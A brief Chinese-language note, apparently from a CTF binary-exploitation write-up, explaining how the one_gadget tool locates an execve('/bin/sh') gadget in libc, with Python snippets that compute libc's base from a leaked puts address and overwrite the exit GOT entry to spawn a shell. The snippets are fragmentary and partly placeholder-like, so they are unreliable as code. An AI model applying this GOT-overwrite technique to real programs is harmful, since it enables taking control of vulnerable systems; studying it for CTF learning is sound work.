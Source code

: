 我们的 `one_gadget` 的作用是找到我们的 `libc` 中自带的 `execev('/bin/sh',x,x)`

只要我们能在我们的 libc 找到对应的文件，并且我们能够满足我们的限制要求，我们就能够执行我们的对应的函数。
![[Pasted image 20240123182908.png]]

这个时候，我们就可以构造我们的下面的一个 payload
```python
libc_base=int(p.recv(14),16)-libc.sym['puts']
one_gadget=libc_base+0xebcf8
```

然后，我们通过修改我们的 got 表来实现我们的功能
```python
payload=string(elf.got['exit'])
payload2=one_gadget
```